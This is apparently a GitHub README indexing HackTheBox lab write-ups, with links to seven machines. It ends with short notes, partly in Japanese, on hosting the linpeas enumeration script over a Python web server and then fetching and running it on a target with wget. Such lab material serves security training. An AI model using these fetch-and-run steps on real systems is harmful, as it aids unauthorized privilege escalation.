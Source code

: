 # HackTheBox-writeup
HackTheBox machine writeup


## Instant

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Instant


## BoardLight

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/BoardLight


## Forest

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Forest


## Cap

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cap


## Strutted

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Strutted


## Cicada

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cicada


## Mirai

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Mirai




# Tools
## linpeas
home/kaliにインストール

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

/home/kali送る側
```
python3 -m http.server 8080
```

ターゲットマシンで受け取る
```
cd /tmp
wget http://10.10.xx.xx/linpeas.sh -O linpeas.sh
xx:/tmp$ ls
linpeas.sh

xx:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh

./linpeas.sh
xx:/tmp$ ./linpeas.sh | tee linpeas_output.txt
```
